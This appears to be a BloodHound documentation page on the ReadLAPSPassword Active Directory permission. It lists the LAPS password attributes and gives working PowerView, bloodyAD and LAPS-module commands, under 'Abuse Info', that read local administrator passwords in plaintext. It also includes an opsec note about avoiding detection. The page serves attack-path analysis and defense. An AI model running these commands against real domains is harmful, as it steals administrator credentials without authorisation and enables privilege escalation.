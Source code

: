 ```yaml
---
title: ReadLAPSPassword
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 



This privilege allows a principal to read the LAPS password from a computer.

For systems using legacy LAPS, the following AD computer object properties are relevant:

* **ms-Mcs-AdmPwd**: The plaintext LAPS password
* **ms-Mcs-AdmPwdExpirationTime**: The LAPS password expiration time

For systems using Windows LAPS (2023 edition), the following AD computer object properties are relevant:

* **msLAPS-Password**: The plaintext LAPS password
* **msLAPS-PasswordExpirationTime**: The LAPS password expiration time
* **msLAPS-EncryptedPassword**: The encrypted LAPS password
* **msLAPS-EncryptedPasswordHistory**: The encrypted LAPS password history
* **msLAPS-EncryptedDSRMPassword**: The encrypted Directory Services Restore Mode (DSRM) password
* **msLAPS-EncryptedDSRMPasswordHistory**: The encrypted DSRM password history

Abuse Info[](#h_01JF7GFQDMTP3E7C81G2M07PSF)
-------------------------------------------

 Plaintext attributes can be read using a simple LDAP client. For example, with PowerView:
```
Get-DomainComputer "MachineName" -Properties "cn","ms-mcs-admpwd","ms-mcs-admpwdexpirationtime"
```
 On Linux, using bloodyAD:
```
bloodyAD --host $DC_IP -d $DOMAIN -u $USER -p $PASSWORD get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
 Encrypted attributes can be decrypted using Microsoft's LAPS PowerShell module. For example:
```
Get-LapsADPassword "WIN10" -AsPlainText
```
The encrypted attributes can also be retrieved and decrypted using [lapsv2decrypt](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt) (dotnet or BOF).

Opsec Considerations[](#h_01JF7GFQDMGRVY148EE69BHVVE)
-----------------------------------------------------

Reading properties from LDAP is extremely low risk, and can only be found using monitoring of LDAP queries.

References[](#h_01JF7GFQDMQX77QWZYKHS16G0B)
-------------------------------------------

* [https://www.specterops.io/assets/resources/an\_ace\_up\_the\_sleeve.pdf](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf)
* [https://adsecurity.org/?p=3164](https://adsecurity.org/?p=3164)
* [https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword](https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword)
* [https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt)
* [https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)
